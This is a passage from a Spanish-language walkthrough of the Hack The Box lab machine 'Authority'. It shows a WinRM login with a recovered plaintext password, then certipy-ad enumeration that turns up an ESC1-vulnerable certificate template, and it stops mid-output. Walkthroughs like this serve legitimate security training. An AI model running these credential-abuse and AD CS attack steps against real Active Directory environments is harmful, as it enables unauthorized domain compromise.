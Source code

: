 Colocamos el siguiente comando para conectarse al servidor.
```bash
evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' 
```
Se ingresó con éxito al servidor.  
![Desktop View](/writeup-htb-authority/winrm login.png)
_Ingreso al sistema_

Ahora nos dirigimos al escritorio donde se encuentra el flag del usuario.  
![Desktop View](/writeup-htb-authority/user flag.png)
_Flag del usuario_

## Escalada de privilegios (Privilege escalation)
Como desafío final debemos de escalar privilegios para obtener los permisos de administrador y así lograr ver el último flag.
### Identificación de vulnerabilidades.
Como él active directory está activo, lo que vamos a hacer es utilizar la herramienta `certipy` para identificar vulnerabilidades.
> Certipy es una herramienta que permite descubrir vulnerabilidades del Active Directory Certificate Services (AD CS) y abusar de estas. En kali esta herramienta tiene el nombre de `certipy-ad`.
{: .prompt-info }
Vamos a descubrir si él active directory tiene vulnerabilidades en los certificate services, para ello utilizamos la opción `find` de la herramienta.
```bash
certipy-ad find -dc-ip 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r! -enabled -vulnerable -stdout
```
> Donde:   
	 -dc-ip -> específica la ip de la máquina victima.  
	 -u -> específica el usuario.  
	 -p -> específica el password.  
	 -enabled -> indica que solo se vean los certificate templates habilitados.  
	 -vulnerable -> indica que solo se vean los certificate templates vulnerables.  
	 -stdout -> muestra el resultado como texto.  
{: .prompt-info }
El resultado es un certificado vulnerable a `ESC1`.  
Los datos más importantes a tener en cuenta son: el nombre del template vulnerables es `CorpVPN`, el Certificate Authorities(CA) es `AUTHORITY-CA` y los que pueden pedir este certificado son los usuarios que pertenezcan a `AUTHORITY.HTB\Domain Computers`, es decir las computadoras.  
```bash
certipy-ad find -dc-ip 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r! -enabled -vulnerable -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
```